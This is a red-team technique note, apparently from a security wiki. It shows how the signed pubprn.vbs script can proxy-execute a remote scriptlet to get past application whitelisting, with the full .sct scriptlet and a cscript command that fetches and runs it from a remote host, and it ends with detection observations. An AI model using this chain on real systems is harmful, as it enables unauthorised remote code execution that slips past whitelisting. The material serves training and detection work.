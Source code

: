 ```yaml
---
description: >-
  Signed Script Proxy Execution - bypass application whitelisting using
  pubprn.vbs
---
```


# T1216: pubprn.vbs Signed Script Code Execution

## Execution

Using pubprn.vbs, we will execute code to launch calc.exe. First of, the xml that will be executed by the script:

{% code-tabs %}
{% code-tabs-item title="http://192.168.2.71/tools/mitre/proxy-script/proxy.sct" %}
```markup
<?XML version="1.0"?>
<scriptlet>

<registration
    description="Bandit"
    progid="Bandit"
    version="1.00"
    classid="{AAAA1111-0000-0000-0000-0000FEEDACDC}"   
	>
</registration>

<script language="JScript">
<![CDATA[
		var r = new ActiveXObject("WScript.Shell").Run("calc.exe");	
]]>
</script>

</scriptlet>
```
{% endcode-tabs-item %}
{% endcode-tabs %}

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
cscript /b C:\Windows\System32\Printing_Admin_Scripts\en-US\pubprn.vbs 127.0.0.1 script:http://192.168.2.71/tools/mitre/proxy-script/proxy.sct
```
{% endcode-tabs-item %}
{% endcode-tabs %}

## Observations

Calc.exe gets spawned by cscript.exe which immediately closes leaving the calc.exe process orphan:

![](../.gitbook/assets/pubprn-csript.png)

![](../.gitbook/assets/pubprn-ancestry.png)

Monitoring commandlines can be useful in detecting the script being abused:

![](../.gitbook/assets/pubprn-logs.png)

## References

{% embed url="https://attack.mitre.org/wiki/Technique/T1216" %}

